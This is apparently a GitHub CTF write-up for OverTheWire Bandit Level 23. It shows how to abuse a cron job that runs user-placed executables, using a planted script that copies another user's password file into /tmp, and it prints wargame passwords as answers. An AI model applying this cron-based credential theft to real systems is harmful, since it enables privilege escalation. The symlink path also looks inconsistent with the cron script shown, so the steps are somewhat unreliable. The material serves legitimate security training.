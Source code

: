 
# OverTheWire Bandit CTF – Level 23

## 🏆 **Goal**  
The goal of Bandit Level 23 is to exploit a cron job that executes user scripts from a specific directory. You need to create a shell script that extracts the password for the next level and stores it in a file.

---

## 🚀 **Steps to Solve**

### 1. **Connect via SSH**  
Use the password obtained from Level 22 to log into **bandit23** using SSH:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

- **Username:** bandit23  
- **Hostname:** bandit.labs.overthewire.org  
- **Port:** 2220  

When prompted, enter the password from Level 22:

```
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

---

### 2. **Check the Cron Job Configuration**  
Navigate to the cron job configuration directory:

```bash
cd /etc/cron.d
```

List the files:

```bash
ls
```

Example output:
```
cronjob_bandit24
```

Read the contents of the cron job file:

```bash
cat cronjob_bandit24
```

Example output:
```bash
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

---

### 3. **Check the Cron Script**  
Read the script to understand what it does:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

Example output:
```bash
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
for file in *; do
  [ -x "$file" ] && ./$file
done
```

The script:  
✅ Runs as user `bandit24`  
✅ Executes any executable file found in `/var/spool/bandit24/`  

---

### 4. **Create a Shell Script to Steal the Password**  
Create a shell script that reads the password for the next level and stores it in `/tmp`:

```bash
echo '#!/bin/bash' > /tmp/mypass.sh
echo 'cat /etc/bandit_pass/bandit24 > /tmp/password24' >> /tmp/mypass.sh
```

Make the script executable:

```bash
chmod +x /tmp/mypass.sh
```

---

### 5. **Place the Script in the Cron Directory**  
Create a symbolic link to the script in the cron-executed directory:

```bash
ln -s /tmp/mypass.sh /var/spool/bandit24/foo/mypass
```

---

### 6. **Retrieve the Password**  
After a minute (since the cron job runs every minute), check the file where the password was saved:

```bash
cat /tmp/password24
```

Example output:
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

## 📸 **Screenshot**  
![Level-23](https://github.com/user-attachments/assets/1c04aaab-3899-4576-a9a5-ca01ad6443ad)

---

## 🔑 **Password for Next Level**  
The password for **Level 24** is:

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

## ✅ **Summary**  
✔️ Connected to the server using SSH.  
✔️ Located the cron job configuration in `/etc/cron.d/`.  
✔️ Created a shell script to extract the password.  
✔️ Placed the script in the cron-executed directory using a symbolic link.  
✔️ Retrieved the password for Level 24!  

---

**Next Step:** Proceed to [Level 24](https://overthewire.org/wargames/bandit/bandit24.html) to continue the challenge.  

---
